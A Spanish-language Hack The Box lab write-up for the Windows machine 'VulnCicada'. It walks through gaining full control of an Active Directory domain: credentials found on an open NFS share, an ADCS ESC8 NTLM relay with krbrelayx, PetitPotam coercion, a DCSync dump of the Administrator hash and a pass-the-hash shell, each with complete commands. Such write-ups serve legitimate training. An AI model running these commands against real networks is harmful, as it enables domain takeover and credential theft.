___
Tags: #htb #medium 
___
# VulnCicada

## Información General

**- Dificultad:** Medium <br>
**- Sistema operativo:** Windows <br>
**- Fecha de resolución:** 18/08/2026 <br>
**- Enlace:** [VulnCicada](https://app.hackthebox.com/machines/VulnCicada)

## Listado de Vulnerabilidades Identificadas

### 1. Exposición de Información Confidencial en Recurso Compartido Abierto (NFS)

- **Descripción:** Se detectó una partición compartida en NFS accesible públicamente sin autenticación adecuada (`/profiles`). En su interior se almacenaban imágenes que contenían información sensible en texto claro.
    
- **Detalle:** La imagen `marketing.png` expuso directamente las credenciales de un usuario del dominio:
    
    - **Usuario:** `Rosie.Powell`
        
    - **Contraseña:** `Cicada123`
        
- **Impacto:** **Alto.** Permite a un atacante no autenticado obtener acceso inicial al dominio de Active Directory (`cicada.vl`) utilizando credenciales válidas obtenidas mediante enumeración pasiva de archivos públicos.
### 2. Vulnerabilidad AD CS ESC8 (Inscripción Web HTTP Habilitada sin Protección)

- **Descripción:** El Servidor de Certificados de Active Directory (AD CS, `cicada-DC-JPQ225-CA`) tiene habilitada la interfaz de inscripción web (_Web Enrollment_) mediante el protocolo **HTTP no seguro**.
    
- **Impacto:** **Crítico.** Permite llevar a cabo ataques de reenvío NTLM (_NTLM Relay_) contra la interfaz HTTP del AD CS. Al retransmitir la autenticación de una cuenta de equipo del Controlador de Dominio, el atacante puede solicitar un certificado digital legítimo a nombre de dicho equipo.
### 3. Asignación Elevada de Cuota de Cuentas de Máquina (`MachineAccountQuota`)

- **Descripción:** La propiedad `MachineAccountQuota` (MAQ) en el Active Directory está configurada en su valor por defecto de `10`.
    
- **Impacto:** **Medio.** Permite a cualquier usuario autenticado del dominio (como `Rosie.Powell`) añadir hasta 10 cuentas de máquina/equipo al dominio de Active Directory. Esto facilita la creación de registros DNS arbitrarios e infraestructuras dentro del dominio para maniobras complejas de retransmisión de tráfico y _pivoting_.
### 4. Vulnerabilidad a Ataques de Coacción NTLM / _Coercion_ (PetitPotam / MS-EFSR)

- **Descripción:** Los servicios RPC del Controlador de Dominio (`DC-JPQ225`) son vulnerables al método de coacción NTLM conocido como **PetitPotam** (`MS-EFSR`).
    
- **Impacto:** **Alto.** Un atacante con credenciales de usuario del dominio puede forzar al Controlador de Dominio a autenticarse automáticamente (vía NTLM) contra una máquina o listener arbitrario controlado por el atacante.
### 5. Cadena de Explotación Combinada (Relay NTLM a AD CS + DCSync)

- **Descripción:** La combinación de **PetitPotam**, la modificación de DNS con `bloodyAD` y la vulnerabilidad ESC8 en AD CS permite:
    
    1. Forzar la autenticación del equipo `DC-JPQ225$` hacia el atacante.
        
    2. Hacer un _relay_ de esa autenticación NTLM hacia el punto final de inscripción web de AD CS.
        
    3. Generar un archivo de certificado legítimo (`.pfx`) para la cuenta de equipo del Controlador de Dominio (`DC-JPQ225$`).
        
- **Impacto:** **Crítico (Compromiso Total del Dominio).** Con el certificado obtenido, el atacante puede solicitar un TGT de Kerberos como el propio Controlador de Dominio y ejecutar un ataque de **DCSync**. Esto permite extraer el hash NTLM de cualquier usuario del dominio, incluido el **Administrador** (`85a0da53871a9d56b6cd05deda3a5e87`), obteniendo control total e irrestricto sobre la máquina y el entorno de Active Directory.
## Reconocimiento

**TB** nos proporciona la ip de la máquina objetivo **10.129.234.48**

### Ping

```
ping -c 1 10.129.234.48
```

<p align="center">

</p>

**Su ttl es 127. Por tanto es Window**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -Pn 10.129.234.48
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-17 23:30:31Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-08-17T22:46:22
|_Not valid after:  2027-08-17T22:46:22
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-08-17T22:46:22
|_Not valid after:  2027-08-17T22:46:22
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-08-17T22:46:22
|_Not valid after:  2027-08-17T22:46:22
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-08-17T22:46:22
|_Not valid after:  2027-08-17T22:46:22
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Not valid before: 2026-08-16T22:54:00
|_Not valid after:  2027-02-15T22:54:00
|_ssl-date: 2026-08-17T23:32:08+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
50201/tcp open  msrpc         Microsoft Windows RPC
50654/tcp open  msrpc         Microsoft Windows RPC
50901/tcp open  msrpc         Microsoft Windows RPC
51689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
51692/tcp open  msrpc         Microsoft Windows RPC
51709/tcp open  msrpc         Microsoft Windows RPC
```

| Open port/TCP | Service       | Version                                 |
| ------------- | ------------- | --------------------------------------- |
| 53            | domain        | Simple DNS Plus                         |
| 80            | http          | Microsoft IIS httpd 10.0                |
| 88            | kerberos-sec  | Microsoft Windows Kerberos              |
| 111           | rpcbind       |                                         |
| 135           | msrpc         | Microsoft Windows RPC                   |
| 139           | netbios-ssn   | Microsoft Windows netbios-ssn           |
| 389           | ldap          | Microsoft Windows Active Directory LDAP |
| 593           | ncacn_http    | Microsoft Windows RPC over HTTP 1.0     |
| 636           | ssl/ldap      | Microsoft Windows Active Directory LDAP |
| 3268          | ldap          | Microsoft Windows Active Directory LDAP |
| 3269          | ssl/ldap      | Microsoft Windows Active Directory LDAP |
| 3389          | ms-wbt-server | Microsoft Terminal Services             |
### SMB 

El siguiente comando **extrae los nombres de dominio/host de la IP vía SMB y los agrega automáticamente a tu archivo `/etc/hosts`** para que puedas navegar o atacar usando sus nombres de dominio.

```
sudo netexec smb 10.129.234.48 --generate-hosts-file /etc/hosts
```

<p align="center">

</p>

No puedo autenticarme usando Kerberos con un nombre de invitado:

```
netexec smb DC-JPQ225.cicada.vl -u guest -p '' -k
```

<p align="center">

</p>

### Sitio web - TCP 80

Navega hacia la siguiente url.

```
http://10.129.234.48/
```

pero no encuentro nada interesante

### Partición pública NFS 

Hay una participación pública del NFS en VulnCicada:

```
showmount -e 10.129.234.48
```

Voy a montar el share en `/nfs` en mi kali:

```
mkdir mnt

sudo mount -t nfs -o rw,nfsvers=4 10.129.234.48:/profiles ./mnt

ls -la nfs
```

Observo que tengo dos imágenes png de lo más interesante...

<p align="center">

</p>

Visualizando la imagen marketing.png obtengo la contraseña **Cicada123** del usuario **Rosie.Powell**

## Explotación

### Obtener usuario DC-JQ225

El usuario **Rosie.Powell** es totalmente válido para **smb**

```
netexec smb DC-JPQ225.cicada.vl -u  Rosie.Powell -p 'cicada123' -k
```

<p align="center">

</p>

Nos interesa mucho la carpeta **profiles$**

```
netexec smb DC-JPQ225.cicada.vl -u  Rosie.Powell -p 'Cicada123' -k --shares
```

<p align="center">

</p>

>CertEnroll Es una carpeta compartida por defecto cuando en la red de Active Directory hay un **Servidor de Certificados (CA)** instalado.

> **profiles$** Es una carpeta compartida donde el Administrador del dominio configura **"Perfiles Móviles"** (_Roaming Profiles_) o carpetas personales para los usuarios del dominio.

Solicitaré un TGT como **Rosie.Powell** utilizando `netexec` .

```
netexec smb DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123 -k --generate-tgt Rosie.Powell
```

Lo usaré para conectarme a SMB. `profiles$` es lo mismo que el sistema de archivos NFS. `CertEnroll` tiene varios certificados:

```
KRB5CCNAME=Rosie.Powell.ccache smbclient.py -k DC-JPQ225.cicada.vl

shares
```

<p align="center">

</p>

Estas son claves públicas, y no información confidencial.

```
use CertEnroll
ls
```

<p align="center">

</p>

#### Enumeración ADCS

Dado la actividad de ADCS, realizaré una búsqueda de vulnerabilidades de ADCS utilizando `certipy` :

```
certipy-ad find -target DC-JPQ225.cicada.vl -u Rosie.Powell@cicada.vl -p Cicada123 -k -vulnerable -stdout
```

No encuentra ningún esquema vulnerable, pero sí detecta que el propio CA es vulnerable a ESC8.

```bash
Certificate Authorities
  0
    CA Name                             : cicada-DC-JPQ225-CA
    DNS Name                            : DC-JPQ225.cicada.vl
    Certificate Subject                 : CN=cicada-DC-JPQ225-CA, DC=cicada, DC=vl
    Certificate Serial Number           : 495374ACF608B2804A55660D3DBEA407
    Certificate Validity Start          : 2026-08-17 22:50:01+00:00
    Certificate Validity End            : 2526-08-17 23:00:01+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CICADA.VL\Administrators
      Access Rights
        ManageCa                        : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        ManageCertificates              : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        Enroll                          : CICADA.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
Certificate Templates                   : [!] Could not find any certificate templates
```

#### Explotación de ESC8

>**ESC8** se describe como un vector de escalado de privilegios en el que un atacante lleva a cabo un ataque de reenvío de NTLM contra un punto final de inscripción basado en HTTP de ADCS. Estas interfaces web proporcionan métodos alternativos para que los usuarios y los ordenadores soliciten certificados.

El primer paso es crear una máquina virtual de Windows y agregarla al dominio. La cantidad de cuentas de máquina está configurada en 10 (el valor predeterminado), por lo que esto debería ser posible.

```
netexec ldap DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123 -k -M maq
```

<p align="center">

</p>

Dentro de un entorno virtual instalamos **bloodyAD**

```
python3 -m venv venv
source venv/bin/activate
```

```
pip install bloodyAD
```

 Estableceré el registro DNS con `bloodyAD`

```
bloodyAD -u Rosie.Powell -p Cicada123 -d cicada.vl -k --host DC-JPQ225.cicada.vl add dnsRecord dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 10.10.14.188
```

<p align="center">

</p>

Ojo que **10.10.14.188** es mi IP de mi máquina de ataque.

Este comando sirve para **interceptar una autenticación de Red (NTLM)** de un equipo de la red y **retransmitirla (relay)** inmediatamente contra un servidor de Certificados (AD CS) para obtener un certificado digital válido de un Controlador de Dominio usando el script [krbrelayx.py](https://github.com/dirkjanm/krbrelayx/blob/master/krbrelayx.py)

El objetivo final de esta técnica (_NTLM Relay a AD CS_) es conseguir **privilegios de Administrador de Dominio** al Controlador de Dominio.

Preparamos el puerto con el script [krbrelayx.py](https://github.com/dirkjanm/krbrelayx/blob/master/krbrelayx.py)de escucha

```
./krbrelayx.py -t http://dc-jpq225.cicada.vl/certsrv/ --adcs --template DomainController -smb2support -v 'DC-JPQ225$'
```

Luego con el siguiente comando observamos que vectores de ataque tenemos con **netexec**

```
netexec smb DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123 -k -M coerce_plus
```

<p align="center">

</p>

Llevaremos acabo el ataque llamado **PetitPotam**

```
netexec smb DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123 -k -M coerce_plus -o LISTENER=dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA METHOD=PetitPotam
```

<p align="center">

</p>

Luego en el puerto de escucha, nos llegará que se ha podido crear el certificado **./DC-JPQ225.pfx**

```
./krbrelayx.py -t http://dc-jpq225.cicada.vl/certsrv/ --adcs --template DomainController -smb2support -v 'DC-JPQ225$'
```

<p align="center">

</p>

**NOTA IMPORTANTE**: Debe estar todo correctamente configurado, sino no llega el archivo **.pfx**, en el primer intento no me salió pero ya después del tercer o cuarto sí, es un poco frustrante porque depende mucho si la herramienta le da la gana de funcionar o no, aunque lo tengas todo perfectamente configurado.

#### Autenticar con certificado

Usando el certificado obtenido para autenticarse como la cuenta de la máquina DC:

```
certipy-ad auth -pfx DC-JPQ225.pfx -dc-ip 10.129.234.48
```

<p align="center">

</p>

Hemos obtenido:

- `Kerberos TGT para DC-JPQ225$`

- Hash NTLM para la cuenta de la máquina

#### Dumpear el hash administrador de dominio

Usando la cuenta de máquina DC TGT para realizar un ataque DCSync:

```
KRB5CCNAME=dc-jpq225.ccache secretsdump.py -k -no-pass cicada.vl/dc-jpq225\$@dc-jpq225.cicada.vl -just-dc-user administrator
```

<p align="center">

</p>

**Administrator NTLM Hash:** 85a0da53871a9d56b6cd05deda3a5e87

#### Verificando el usuario administrador

El usuario administrador es totalmente válido.

```
netexec smb dc-jpq225.cicada.vl -u administrator -H 85a0da53871a9d56b6cd05deda3a5e87 -k
```

<p align="center">

</p>

#### Shell

```
wmiexec.py cicada.vl/administrator@dc-jpq225.cicada.vl -k -hashes :85a0da53871a9d56b6cd05deda3a5e87
```

<p align="center">

</p>

## Conclusión

**VulnCicada** es una máquina Windows enfocada en la explotación de **Active Directory Certificate Services (AD CS)**, donde el acceso inicial se logra tras descubrir una partición NFS pública (`/profiles`) con credenciales en claro dentro de un archivo de imagen (`Rosie.Powell` / `Cicada123`). Posteriormente, se aprovecha una cuota `MachineAccountQuota` permisiva para registrar DNS arbitrarios y se fuerza una autenticación NTLM del Controlador de Dominio usando **PetitPotam**; dicha autenticación se retransmite (_relay_) hacia la interfaz web HTTP no segura de AD CS (**vulnerabilidad ESC8**) para emitir un certificado `.pfx` a nombre de la cuenta de máquina `DC-JPQ225$`. Finalmente, utilizando dicho certificado para solicitar un ticket Kerberos TGT, se ejecuta un ataque de **DCSync** que permite extraer el hash NTLM del usuario `Administrator` y comprometer totalmente el dominio mediante _Pass-the-Hash_.